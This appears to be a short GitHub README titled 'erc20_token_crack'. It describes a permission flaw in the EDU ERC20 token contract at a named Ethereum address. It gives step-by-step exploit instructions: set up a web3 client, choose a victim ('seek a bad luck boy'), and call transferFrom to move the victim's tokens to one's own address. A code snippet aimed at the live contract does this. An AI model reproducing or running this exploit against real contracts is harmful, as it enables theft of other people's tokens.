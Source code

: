 # erc20_token_crack
a doc for erc20 token crack

# 0x00
some days ago, i got a erc20 contract security problom in EDU

- contract address: 0xa0872eE815B8dd0F6937386Fd77134720d953581
- explorer: https://etherscan.io/address/0xa0872eE815B8dd0F6937386Fd77134720d953581

in this case, we can tranfer anyone's EDU without permission.
this is the bug look:

[![CfRvQ0.md.jpg](https://s1.ax1x.com/2018/05/26/CfRvQ0.md.jpg)](https://imgchr.com/i/CfRvQ0)

eth picture is from ..., i forgot. Please commit a issue if you know where the picture from, thank you

So, lets bigin the game

# 0x01
what we need first

- a eth server with a geth or web3 client that we can send transaction
- a eth address

＃ 0x02
seek a bad luck boy

# 0x03

    # add abi
    abi = {edu_abi} # replace with edu abi
    edu_contract = web3.eth.contract(abi).at('0xa0872eE815B8dd0F6937386Fd77134720d953581')
    edu_contract.transferFrom('the bad luck boy', eth.coinbase, 10, {'from': eth.coinbase})
  
# 0x04
 here we finished, at last, dont be evil :)



